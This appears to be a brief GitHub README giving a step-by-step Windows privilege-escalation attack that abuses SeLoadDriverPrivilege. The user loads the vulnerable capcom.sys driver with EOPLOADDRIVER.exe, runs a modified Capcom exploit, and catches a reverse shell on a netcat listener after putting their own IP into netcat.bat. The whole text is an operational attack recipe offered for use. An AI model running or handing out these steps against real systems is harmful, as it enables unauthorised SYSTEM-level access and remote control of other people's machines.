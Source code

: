 # SeLoadDriverPrivilege

1. Edit netcat.bat to add your IP
2. Upload all the files on the Target Machine
3. Start netcat listener
   `rlwrap -cAr nc -lvnp 2222`
4. Run these commands
   `.\EOPLOADDRIVER.exe System\CurrentControlSet\MyService C:\temp\capcom.sys`
   `.\ExploitCapcom_modded.exe`
